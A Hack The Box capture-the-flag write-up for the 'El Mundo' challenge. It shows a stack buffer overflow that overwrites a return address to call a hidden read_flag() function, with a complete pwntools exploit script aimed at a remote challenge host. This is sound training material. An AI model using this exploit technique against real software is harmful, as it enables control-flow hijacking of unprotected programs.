






# Hack The Box – El Mundo

<br>
<br>


---

## 📌 Overview

**El Mundo** is a binary exploitation challenge that demonstrates how a classic **stack-based buffer overflow** can be leveraged to redirect execution flow to a privileged function inside the binary. By carefully analyzing the binary, identifying a vulnerable input, and overwriting the return address, we are able to execute the hidden `read_flag()` function and retrieve the flag.

> *In this write-up, we cover*

* Binary enumeration and security checks
* Crash analysis and offset discovery
* Function discovery using GDB
* Return Address overwrite exploitation
* Remote exploitation and flag extraction

---

## 🛠 Tools

The following tools and techniques were used:

```
GDB + GEF           → Binary debugging and analysis
checksec            → Security mitigation analysis
pwntools            → Exploit development
objdump / gdb       → Disassembly and function inspection
Linux terminal      → Execution and scripting
```

---


##     Walkthrough

### 1️⃣ Initial Execution

The binary is executed locally to observe its behavior.

```bash
./el_mundo
```

The program crashes when given a long input, indicating a potential buffer overflow.




---

### 2️⃣ Security Protections Analysis

We inspect the binary protections using `checksec`.

```bash
checksec el_mundo
```

Results:

* Canary: ❌ Disabled
* NX: ❌ Disabled
* PIE: ❌ Disabled
* Fortify: ❌ Disabled
* RELRO: Full

These results indicate that the binary is highly vulnerable to **direct control-flow hijacking**.




---

### 3️⃣ Crash Analysis & Offset Discovery

By supplying a long sequence of characters, the program crashes at the `ret` instruction in `main`, confirming that the return address is overwritten.

Using GDB + GEF, we observe controlled data on the stack:

```text
AAAAAAA...
```

This confirms a **stack-based buffer overflow** vulnerability.




---


### 4️⃣ Disassembly Analysis

Disassembling the `main` function shows where user input is read and how the stack buffer is laid out.

This confirms that overwriting the return address with the address of `read_flag()` will redirect execution successfully.

📸 Screenshot:


---

### 5️⃣ Function Discovery – read_flag()

Inspecting the binary symbols reveals a hidden function responsible for printing the flag.

```gdb
gef➤ p read_flag
```

The function address is identified as:

```text
read_flag @ 0x4016b7
```


---


## 🧪 Exploitation

### Payload Construction

To exploit the vulnerability, we construct the payload as follows:

* Padding to reach the return address: **56 bytes**
* Overwrite return address with `read_flag()` address

Payload layout:

```
'A' * 56 + p64(0x4016b7)
```



---

### Exploit Script (pwntools)

```python
#!/usr/bin/env python3
from pwn import *
import warnings
import os

warnings.filterwarnings('ignore')
context.log_level = 'critical'

fname = './el_mundo'
LOCAL = False  # Change to True to run locally

os.system('clear')

if LOCAL:
    r = process(fname)
else:
    IP = '94.237.122.188'
    PORT = 59957
    r = remote(IP, PORT)
    print(f"Running solver remotely at {IP}:{PORT}\n")

e = ELF(fname)

# Exploit parameters
nbytes = 56
read_flag_addr = 0x4016b7

# Send payload
r.sendlineafter('>', b'A' * nbytes + p64(read_flag_addr))

# Read flag
r.sendline('cat flag*')
print(f"Flag → {r.recvline_contains(b'HTB').strip().decode()}")
```

---

### 6️⃣ Flag Retrieval

Running the exploit remotely successfully redirects execution to `read_flag()`.

🏁 **Flag recovered successfully!**



---

## 🧠 What This Challenge Teaches

* Stack-based buffer overflows remain powerful when protections are disabled
* Function reuse attacks are effective without shellcode
* GDB is essential for crash analysis and offset calculation
* pwntools simplifies reliable local and remote exploitation

---

## 📌 Conclusion

El Mundo is a clean and educational binary exploitation challenge that reinforces **return address overwrite fundamentals** and demonstrates how understanding binary internals leads directly to successful exploitation.

> *When the stack is unprotected, control flow is yours.*

---

## 👤 Author

**subzeroxi11**
